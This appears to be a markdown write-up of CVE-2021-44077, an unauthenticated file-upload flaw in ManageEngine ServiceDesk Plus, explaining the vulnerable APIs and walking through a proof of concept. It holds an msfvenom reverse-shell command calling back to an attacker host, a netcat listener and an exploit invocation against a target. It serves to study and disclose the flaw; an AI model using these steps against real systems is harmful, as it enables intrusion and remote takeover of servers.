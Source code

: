 # CVE-2021-44077.md

### Overview

On September 16, 2021, the company ManageEngine (a subsidiary of Zoho) released version 11306 of ManageEngine ServiceDesk Plus to patch the vulnerability CVE-2021-44077.

CVE-2021-44077 is an authentication bypass vulnerability affecting (on-premises) installations of ManageEngine ServiceDesk Plus using versions 11305 and earlier.

The source of the vulnerability was an improper security configuration process used in ServiceDesk Plus, and it allowed attackers to gain unauthorized access to the application's data through several of its application URLs.

### Detail

![image](https://user-images.githubusercontent.com/63194321/155062895-5a0d68cd-f333-4b16-87f7-ae29932d86aa.png)

According to ManageEngine on the homepage, this is a vulnerability that bypasses authentication to upload arbitrary files.

The original cause given by the developers was that the APIs did not validate the input and allow uploading and executing those files. 

1. The first is the RestAPI that is called when new software needs to be installed `s247AgentInstallationProcess`.

![image](https://user-images.githubusercontent.com/63194321/155074610-0935d57f-bcc3-4cbb-b156-143025aec5cb.png)

> This RestAPI `s247AgentInstallationProcess` then calls an RestAPI `S247Util.installAgentProgress(apikey)` 

![image](https://user-images.githubusercontent.com/63194321/155075301-bbaffab1-6325-4760-9305-4bf227c7fac5.png)

The main essence of this RestAPI is to call the Windows Installer [msiexec.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec) utility from the command line to install software installed with the `Site24x7WindowsAgent.msi`.

Normally, the `msiexec.exe` utility of ManageEngine ServiceDesk Plus will be located at the path: `ManageEngine\ServicesDesk\bin`. 
And the command line structure to install that is: `C:\Program Files\ManageEngine\ServiceDesk\bin\msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=apikey /qn` 

2. Next we will analyze the file upload without input validation which the main cause here is RestAPI `ImportTechniciansAction`.

![image](https://user-images.githubusercontent.com/63194321/155081111-9914d249-1c13-45e4-968d-c4db220f9076.png)

With the `iuf.getTheFile()` function, RestApi will write files directly to the file without authentication. If the file already exists, the old file() will be overwritten. 

Now if the attacker uploads a file named `msiexec.exe` then the old file in the system will be overwritten. After the attacker calls the API `s247AgentInstallationProcess`, 
the file `msiexec.exe` will be executed from which the attacker can RCE the victim machine. 

### PoC

**Step1:** Download and install ManageEngine ServiceDesk Plus any from 11138 to 11145 or <11306. [Here](http://archives.manageengine.com/service-desk/)
> Before starting ManageEngine ServiceDesk Plus. 
> ![image](https://user-images.githubusercontent.com/63194321/155092510-13ba5666-9dfa-4b83-be9d-67887da6bd78.png)

> After starting ManageEngine ServiceDesk Plus.
> ![image](https://user-images.githubusercontent.com/63194321/155100200-21f41af2-fbae-4cf2-a572-90682ae1b170.png)

**Step2:** Use metasploit to proceed to create an application named `msiexec.exe`. 
> msfvenom -p windows/shell_reverse_tcp LHOST=`ATTACKER.IP` LPORT=`ATTACKER.PORT` -f exe > msiexec.exe

![image](https://user-images.githubusercontent.com/63194321/155109360-47e004dc-f347-4ec4-973a-fb8af9ced0c2.png)

**Step3:** Clone 1 PoC of CVE on [github](https://github.com/horizon3ai/CVE-2021-44077.git) or we can deploy a code by ourselves in python. 

![image](https://user-images.githubusercontent.com/63194321/155109873-052113f0-ebd2-4a70-b736-99fbc492967d.png)

In this folder there is a writing program that sends the file `msiexec.exe` to the victim's windows machine as follows. 

![image](https://user-images.githubusercontent.com/63194321/155110734-9e76a05d-b19b-4aef-b736-0fd9b47a74a7.png)

In the above code there are 2 events:
- The application will first be sent to RestAPI `ImportTechniciansAction` to overwrite the file `msiexec.exe`
- Next, we will call `Site24x7WindowsAgent` to automatically pry the file `msiexec.exe`. 

**Step4:** Enable a listener on the attacker machine whose port is the same port as the metasploit payload. 
> nc -lvnp `ATTACKER.PORT`

**Step5:** Deploy the attack to the victim's machine with the payload. 
> python3 exploit.py http://<TARGET_IP>:<PORT_HTTP_PROXY> <path_to_msiexec.exe>
> ![image](https://user-images.githubusercontent.com/63194321/155114258-9894847d-faec-4d65-b3e5-83a0af448d1d.png)


Final result: 

![image](https://user-images.githubusercontent.com/63194321/155114404-4fb7d982-813d-42d7-8a92-1587ddbb0b87.png)

**_Thanks for reading the full report!! _**

### _Reference_

- https://github.com/horizon3ai/CVE-2021-44077
- https://xz.aliyun.com/t/10631
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec

